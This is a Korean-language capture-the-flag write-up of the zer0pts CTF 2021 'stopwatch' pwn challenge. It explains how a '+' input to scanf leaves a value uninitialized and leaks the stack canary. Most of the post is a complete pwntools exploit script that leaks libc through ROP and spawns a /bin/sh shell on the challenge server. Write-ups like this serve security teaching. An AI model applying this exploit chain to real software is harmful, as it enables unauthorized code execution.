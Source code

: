```yaml
---
layout: post
title: zer0pts CTF 2021 stopwatch write-up
categories: ctf-write-up
tags: [ctf]
---
```



## stopwatch (196pts, 22solves)

---

### Summary

1. `scanf("%s")`
2. Using + or - when calling scanf results in an `uninitialized variable`. (canary leak)


---

되게 신박했던 문제였다.  `scanf("%s")`를 사용하기 때문에 bof가 발생하는데 문제는 canary를 모른다는 것이었다.



근데 하나 특이한게 사용자에게 scanf로 소수를 입력받고 이를 출력해주는 루틴이 있었다. scanf로 숫자를 입력받을 때 +나 -를 넣으면 입력을 받지 않기 때문에 `uninitialized` 취약점이 발생한다.



그리고 이 출력되는 소수는 alloca가 어떻게 되는지에 따라 달라졋었는데 대충 27을 넣어주니 카나리가 릭되는 걸 확인했다.



그 이후엔 그냥 rop 하면 된다.

```python
from pwn import *
from struct import *

#p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
p = remote("pwn.ctf.zer0pts.com", 9002)
e = ELF('./chall')
#libc = e.libc
libc = ELF('./libc.so.6')

def dtoi(f):
    return (unpack('<Q', pack('<d', f))[0])


p.sendlineafter('> ', 'A' * 0x80)
p.sendlineafter('> ', str(27))
p.sendlineafter(': ', '+')

canary = (dtoi(float(p.recvline().split(' ')[6])))
print hex(canary)

pop_rdi = 0x400e93

payload = ''
payload += 'A' * (0x20-8)
payload += p64(canary)
payload += 'A' * 8
payload += p64(pop_rdi)
payload += p64(0x601ff0)
payload += p64(e.plt['puts'])
payload += p64(0x40089B)

p.sendline()
p.sendline()
p.recv(2048)
p.sendline(payload)

p.recvuntil("Play again? (Y/n) ")
leak = u64(p.recv(6).ljust(8, '\x00'))
libc_base = leak - libc.sym['__libc_start_main'] 
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()
print hex(libc_base)

payload = ''
payload += 'A' * (0x20-8)
payload += p64(canary)
payload += 'A' * 8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi - 2) * 3
payload += p64(system)

p.sendline()
p.sendline()
p.recv(2048)
p.sendline(payload)

p.interactive()
```



